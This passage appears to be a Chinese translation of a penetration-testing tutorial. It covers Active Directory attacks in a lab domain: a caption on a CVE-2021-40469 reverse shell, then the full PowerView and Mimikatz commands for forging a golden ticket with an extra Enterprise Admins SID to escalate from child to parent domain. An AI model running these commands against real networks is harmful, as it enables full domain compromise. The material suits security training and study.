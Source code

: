 图 6.28 – 成功利用 CVE-2021-40469，在域控制器上获得反向 Shell 并以 SYSTEM 身份执行

接下来，我们将讨论从子域到父域的权限提升问题。同时，我们还将简要讨论 PAM 信任和堡垒域的概念。

## 子域/父域特权提升

在之前的一次攻击中，我们能够导出 **north.sevenkingdoms.local** 域的 **ntds.dit**。现在，我们可以在伪造的票证中添加额外的 SID，以便提升特权到父域。为了成功伪造票证，我们需要两个域的 SID —— 金票证的 krbtgt 哈希值和跨域票证的信任密钥。以下命令将找到域 SID，并借助 Mimikatz 伪造金票证：

```
Get-DomainSID -Domain north.sevenkingdoms.local
Get-DomainSID -Domain sevenkingdoms.local
kerberos::golden /user:Administrator /domain:north.sevenkingdoms.local /sid:S-1-5-21-3600105556-770076851-109492085 /sids:S-1-5-21-4243769114-3325725031-2403382846-519 /krbtgt:35400f589a2614495ab9cfcdd0b89eba /ptt
```

**/sid** 是子域的 SID。**/sids** 是父域中 **Enterprise Admins** 的 SID。结果是可以通过 CIFS 访问父域中的域控制器：

![图 6.29 – 伪造的金票证提供对父域中域控制器的访问](img/B18964_06_29.jpg)
